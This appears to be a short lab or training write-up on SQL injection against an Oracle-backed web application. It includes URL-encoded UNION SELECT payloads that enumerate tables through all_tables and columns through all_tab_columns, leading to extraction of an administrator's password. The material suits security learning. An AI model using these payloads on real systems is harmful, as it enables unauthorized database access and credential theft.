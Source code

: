 On Oracle, you can find the same information as follows:
- You can list tables by querying `all_tables`:
    `SELECT * FROM all_tables`
- You can list columns by querying `all_tab_columns`:
    `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`

First, we confirm that there is a SQL injection:
![](imgs/sql_listing_database_tables_oracle.png)

Then, we do the NULL technique to know the number of columns.
![](imgs/sql_listing_database_tables_oracle-1.png)

As we had to do the `from dual` technique, we know that we are in an Oracle database.
We list the name of all tables:
`'+UNION+SELECT+table_name,+NULL+FROM+all_tables--`
![](imgs/sql_listing_database_tables_oracle-2.png)

We now list the columns of this table:
`'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name%3d'USERS_DECOXG'--`
![](imgs/sql_listing_database_tables_oracle-3.png)

And finally, we perform the query with this data to extract the password of the administrator user.
![](imgs/sql_listing_database_tables_oracle-4.png)

![](imgs/sql_listing_database_tables_oracle-5.png)